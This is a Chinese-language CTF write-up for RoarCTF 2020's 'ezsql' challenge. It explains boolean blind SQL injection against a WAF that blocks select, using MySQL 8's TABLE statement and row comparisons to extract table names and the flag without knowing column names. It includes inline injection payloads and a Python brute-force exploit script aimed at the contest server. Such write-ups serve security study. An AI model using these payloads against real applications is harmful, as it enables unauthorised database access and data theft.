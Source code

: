 ```yaml
---
title: RoarCTF 2020
date: 2020-12-07
image: 
description:  嘶吼CTF
categories: 
- ctf_writeup
tags:
- SQLi
---
```

### ezsql
考点：布尔盲注，MySQL_8.0.19新特性`table`语句，无列名盲注

截图截没有了，忘了，简单说下思路：

传统艺能sqli，本来是一个常规的布尔盲注，不过由于waf写的很黑，大小写ban掉了select，导致没有办法跨表查询，只能同表查询或者查库名：

~~~
admin'/**/and/**/ascii(substr(database(),1,1))>32#
//库名ctf
admin'/**/and/**/ascii(substr(password,1,1))>32#
//密码b4bc4c343ed120df3bff56d586e6d617
~~~

本来测出来有堆叠，但是由于waf写的很黑，堆叠也胎死腹中。

注出来密码md5(gml666)==b4bc4c343ed120df3bff56d586e6d617之后，登陆，提示no flag；
由于waf写的很黑，这到题如果MySQL版本不是>=8.0.19的话就是没有方法做的；

我们能够在[官方文档](https://dev.mysql.com/doc/refman/8.0/en/table.html "官方文档")找到以下资料

> The TABLE statement in some ways acts like SELECT. Given the existance of a table named t, the following two statements produce identical output:
> ```sql
> TABLE t;
> 
> SELECT * FROM t;
> ```
> You can order and limit the number of rows produced by TABLE using ORDER BY and LIMIT clauses, respectively. These function identically to the same clauses when used with SELECT (including an optional OFFSET clause with LIMIT)

本地Windows起一个MySQL_8.0.22的环境调试了一下，发现了之前[新春战疫](http://wh1sper.com/2020i%e6%98%a5%e7%a7%8b%e6%96%b0%e6%98%a5%e6%88%98%e7%96%ab%e5%85%ac%e7%9b%8a%e8%b5%9b_web_wp/ "新春战疫")的ezsql的姿势可以用，当时还抄了颖奇师傅的博客。

> 核心payload：(select 'admin','admin')>(select * from users limit 1)

> 假设flag为flag{bbbbb}，对于payload这个两个select查询的比较，是按位比较的，即先比第一位，如果相等则比第二位，以此类推；在某一位上，如果前者的ASCII大，不管总长度如何，ASCII大的则大，这个不难懂，和c语言的strcmp()函数原理一样，举几个例子：
> 
> 1. glag > flag{bbbbb}
2. alag{zzzzzzzzzzz} < flag{bbbbb}
3. a < flag{bbbbb}
4. z > flag{bbbbb}

库名已知，我们需要的就是表名，根据写的很黑的waf，我们其实只有一条路：`information_schema.tables`，这张表结构大概是这样：
![](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210116013103.png)

第一列`TABLE_CATALOG`基本都是`def`，少数是`NULL`，第二列是库名，第三列是表名，我们就只需要知道这些，另外的太多了不方便贴。

payload大概长这样：

```
admin'/**/and/**/ROW('ctf','aser',3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21)<(table/**/information_schema.tables/**/limit/**/0,1)#
//返回password error!
admin'/**/and/**/ROW('ctf','aser',3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21)>(table/**/information_schema.tables/**/limit/**/0,1)#
//返回,username error!
```
接下来是exp：
```python
#python3
import requests
url = 'http://139.129.98.9:30003/login.php'

def trans(flag):
    res = ''
    for i in flag:
        res += hex(ord(i))
    res = '0x' + res.replace('0x','')
    return res

flag = 'flag{6a55e234-1ed0-455c-bbf3-6df6ddce'
# flag只能跑到这里，后面的一位任意字母真任意非字母假
for i in range(1,500): #这循环一定要大 不然flag长的话跑不完
    hexchar = ''
    for char in range(32, 126):
        hexchar = trans(flag+ chr(char))

        # payload = "admin'/**/and/**/ROW('def','ctf',{},'A',5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21)" \
        #           ">(table/**/information_schema.tables/**/order/**/by/**/TABLE_SCHEMA/**/limit/**/1,1)#".format(hexchar)
        # #表名admin和f11114g

        # payload = "admin'/**/and/**/ROW('def','ctf','admin',{},5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22)" \
        #           ">(table/**/information_schema.columns/**/order/**/by/**/TABLE_SCHEMA/**/limit/**/2,1)#".format(hexchar)
        # #admin：id,USERNAME,PASSWORD.....打偏了

        # payload = "admin'/**/and/**/ROW('def','ctf','f11114g',{},5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22)" \
        #           ">(table/**/information_schema.columns/**/order/**/by/**/TABLE_SCHEMA/**/limit/**/6,1)#".format(hexchar)
        # #f11114g：F1LLLAGGG只有一列

        payload = "admin'/**/and/**/{}" \
                  ">(table/**/ctf.f11114g/**/limit/**/1,1)#".format(hexchar)
        #这里本来不需要列名的，注列名是为了搞清楚有几列

        data = {
                'username': payload,
                'password': '1'
        }
        proxies = {
            "http": "http://127.0.0.1:8080",
        }

        try:
            r = requests.post(url=url, data=data, proxies=proxies, timeout=2)
        except:
            pass
        print(char, r.text, data['username'])
        if 'password error!"' in r.text:
            flag += chr(char-1)
            print(flag)
            break

```

说明一下，这个exp有点问题，比如flag中的-会跑出来单引号，遇到的时候手动换一下就好，然后就是跑到最后四位的时候会断掉，后面的玄学跑不出来。
赛后和师傅交流说其实flag可以直接用ascii(substr(flag,1,1))>1的方式来做，因为f11114g表里面只有一个字段。

